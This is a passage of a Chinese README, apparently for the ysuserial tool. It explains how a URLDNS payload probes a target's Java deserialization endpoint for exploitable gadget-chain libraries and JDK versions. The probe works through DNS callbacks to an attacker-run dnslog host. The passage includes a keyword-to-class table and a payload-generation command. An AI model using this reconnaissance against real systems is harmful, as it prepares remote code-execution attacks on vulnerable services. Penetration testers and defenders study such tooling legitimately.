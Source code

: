 ## URLDNS 探测目标类

为了解决有反序列化利用点但是无链可用的状态，本项目提供了基于 URLDNS 探测目标类的功能。这条链会根据目标环境中不同的类是否存在来判断系统环境、依赖版本，主要包含如下表格中的内容：

| DNSLOG 关键字                               | 对应链                  | 关键类                                                       | 备注                                                         |
| ------------------------------------------- | ----------------------- | ------------------------------------------------------------ | ------------------------------------------------------------ |
| cc31or321<br />cc322                        | CommonsCollections13567 | org.apache.commons.collections.functors.ChainedTransformer<br />org.apache.commons.collections.ExtendedProperties$1 | CommonsCollections1/3/5/6/7<br />需要<=3.2.1版本             |
| cc40<br />cc41                              | CommonsCollections24    | org.apache.commons.collections4.functors.ChainedTransformer<br />org.apache.commons.collections4.FluentIterable | CommonsCollections2/4链<br />需要4-4.0版本                   |
| cb17<br />cb18x<br />cb19x                  | CommonsBeanutils2       | org.apache.commons.beanutils.MappedPropertyDescriptor\$1<br />org.apache.commons.beanutils.DynaBeanMapDecorator\$MapEntry<br />org.apache.commons.beanutils.BeanIntrospectionData | 1.7x-1.8x为-3490850999041592962<br />1.9x为-2044202215314119608 |
| c3p092x<br />c3p095x                        | C3P0                    | com.mchange.v2.c3p0.impl.PoolBackedDataSourceBase<br />com.mchange.v2.c3p0.test.AlwaysFailDataSource | 0.9.2pre2-0.9.5pre8为7387108436934414104<br />0.9.5pre9-0.9.5.5为7387108436934414104 |
| ajw                                         | AspectJWeaver           | org.aspectj.weaver.tools.cache.SimpleCache                   | AspectJWeaver,需要cc31                                       |
| bsh20b4<br />bsh20b5<br />bsh20b6           | bsh                     | bsh.CollectionManager\$1<br />bsh.engine.BshScriptEngine<br />bsh.collection.CollectionIterator\$1 | 2.0b4为4949939576606791809<br />2.0b5为4041428789013517368<br />2.0.b6无法反序列化 |
| groovy1702311<br />groovy24x<br />groovy244 | Groovy                  | org.codehaus.groovy.reflection.ClassInfo\$ClassInfoSet<br />groovy.lang.Tuple2<br />org.codehaus.groovy.runtime.dgm\$1170 | 2.4.x为-8137949907733646644<br />2.3.x为1228988487386910280  |
| becl                                        | Becl                    | com.sun.org.apache.bcel.internal.util.ClassLoader            | JDK<8u251                                                    |
| Jdk7u21                                     | Jdk7u21                 | com.sun.corba.se.impl.orbutil.ORBClassLoader                 | JDK<=7u21                                                    |
| JRE8u20                                     | JRE8u20                 | javax.swing.plaf.metal.MetalFileChooserUI\$DirectoryComboBoxModel\$1 | 7u25<=JDK<=8u20<br />这个检测不完美,8u25版本以及JDK<=7u21会误报<br />可综合Jdk7u21来看 |
| linux<br />windows                          | winlinux                | sun.awt.X11.AwtGraphicsConfigData<br />sun.awt.windows.WButtonPeer | windows/linux版本判断                                        |
|                                             | all                     |                                                              | 全部检测                                                     |

本项目参考了 kezibei 师傅的 URLDNS 项目，实际情况可能有如下几种情况导致问题：

- 反序列时遇到黑名单，可能导致后面的类的 dnslog 出不来；
- 反序列化流程中由于种种情况报错可能导致出不来。

因此这里还是提供了 all/common/指定类 三种探测方式：

- all：探测全部的类；
- common：探测不常在黑名单中的 CommonsBeanutils2/C3P0/AspectJWeaver/bsh/winlinux；
- 指定类：使用对应链中的关键字 CommonsCollections24:xxxx.dns.log 。

示例：`all:xxxxxx.dns.log`

```shell
java -jar ysuserial-<version>-su18-all.jar -g URLDNS -p 'all:xxxxxx.dns.log'
```

效果图：
